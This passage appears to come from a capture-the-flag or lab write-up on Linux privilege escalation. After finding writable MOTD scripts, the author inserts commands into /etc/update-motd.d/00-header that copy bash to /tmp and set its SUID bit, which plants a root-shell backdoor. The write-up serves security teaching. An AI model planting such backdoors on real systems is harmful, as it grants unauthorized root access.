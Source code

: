 We can see that we’ve read/write/execute permissions on the files. But what can we do with these?

```bash
james@osboxes:/etc/update-motd.d$ cat 00-header
#!/bin/sh
#
#    00-header - create the header of the MOTD
#    Copyright (C) 2009-2010 Canonical Ltd.
#
#    Authors: Dustin Kirkland <kirkland@canonical.com>
#
#    This program is free software; you can redistribute it and/or modify
#    it under the terms of the GNU General Public License as published by
#    the Free Software Foundation; either version 2 of the License, or
#    (at your option) any later version.
#
#    This program is distributed in the hope that it will be useful,
#    but WITHOUT ANY WARRANTY; without even the implied warranty of
#    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
#    GNU General Public License for more details.
#
#    You should have received a copy of the GNU General Public License along
#    with this program; if not, write to the Free Software Foundation, Inc.,
#    51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.

[ -r /etc/lsb-release ] && . /etc/lsb-release

if [ -z "$DISTRIB_DESCRIPTION" ] && [ -x /usr/bin/lsb_release ]; then
        # Fall back to using the very slow lsb_release utility
        DISTRIB_DESCRIPTION=$(lsb_release -s -d)
fi

printf "Welcome to %s (%s %s %s)\n" "$DISTRIB_DESCRIPTION" "$(uname -o)" "$(uname -r)" "$(uname -m)"
```

Alright, seems like simple bash commands, let’s just copy `bash` to `tmp` and set root’s SUID bit on it and see if that works.

Added the instructions in 3-4 lines.

```d
james@osboxes:/etc/update-motd.d$ cat 00-header
#!/bin/sh

cp /bin/bash /tmp/
chmod u+s /tmp/bash

#
#    00-header - create the header of the MOTD
#    Copyright (C) 2009-2010 Canonical Ltd.
#
#    Authors: Dustin Kirkland <kirkland@canonical.com>
#
#    This program is free software; you can redistribute it and/or modify
#    it under the terms of the GNU General Public License as published by
#    the Free Software Foundation; either version 2 of the License, or
#    (at your option) any later version.
#
#    This program is distributed in the hope that it will be useful,
#    but WITHOUT ANY WARRANTY; without even the implied warranty of
#    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
#    GNU General Public License for more details.
#
#    You should have received a copy of the GNU General Public License along
#    with this program; if not, write to the Free Software Foundation, Inc.,
```